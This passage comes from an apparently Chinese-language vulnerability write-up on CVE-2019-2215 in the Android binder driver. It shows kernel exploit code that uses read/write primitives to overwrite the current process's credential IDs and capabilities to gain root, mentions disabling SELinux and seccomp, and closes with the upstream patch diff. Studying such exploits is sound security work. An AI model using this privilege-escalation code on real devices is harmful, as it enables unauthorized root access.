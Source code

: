 ```C
	struct key	*process_keyring; /* keyring private to this process */
	struct key	*thread_keyring; /* keyring private to this thread */
	struct key	*request_key_auth; /* assumed request_key authority */
#endif
#ifdef CONFIG_SECURITY
	void		*security;	/* subjective LSM security */
#endif
	struct user_struct *user;	/* real user ID subscription */
	struct user_namespace *user_ns; /* user_ns the caps and keyrings are relative to. */
	struct group_info *group_info;	/* supplementary groups for euid/fsgid */
	struct rcu_head	rcu;		/* RCU deletion hook */
};
```

首先获取`task`中`cred`和`security`的地址
```C
  unsigned long my_cred = kernel_read_ulong(current_ptr + OFFSET__task_struct__cred);
  // offset 0x78 is pointer to void * security
  unsigned long current_cred_security = kernel_read_ulong(my_cred+0x78);
```
然后将`cred`中的各种ID改成root ID(0)，重置`cred.securebits`，并且将各种capability打开，此时已经可以用root权限执行任意代码了。
```C
  // change IDs to root (there are eight)
  for (int i = 0; i < 8; i++)
    kernel_write_uint(my_cred+4 + i*4, 0);
  // reset securebits
  kernel_write_uint(my_cred+0x24, 0);
  // change capabilities to everything (perm, effective, bounding)
  for (int i = 0; i < 3; i++)
    kernel_write_ulong(my_cred+0x30 + i*8, 0x3fffffffffUL);
```
当然我们可以进一步取消SELINUX限制，获取init权限，关闭SECCOMP等。

## 漏洞修复
在Google发布的[补丁](https://android.googlesource.com/kernel/msm/+/550c01d0e051461437d6e9d72f573759e7bc5047%5E%21/#F0)中修复了CVE-2019-2215漏洞。其patch如下
```C
diff --git a/drivers/android/binder.c b/drivers/android/binder.c
index 6b4a991..bb48a7b 100644
--- a/drivers/android/binder.c
+++ b/drivers/android/binder.c
@@ -4535,6 +4535,18 @@
 		if (t)
 			spin_lock(&t->lock);
 	}
+
+	/*
+	 * If this thread used poll, make sure we remove the waitqueue
+	 * from any epoll data structures holding it with POLLFREE.
+	 * waitqueue_active() is safe to use here because we're holding
+	 * the inner lock.
+	 */
+	if ((thread->looper & BINDER_LOOPER_STATE_POLL) &&
+	    waitqueue_active(&thread->wait)) {
+		wake_up_poll(&thread->wait, POLLHUP | POLLFREE);
+	}
+
 	binder_inner_proc_unlock(thread->proc);
 
 	if (send_reply)
```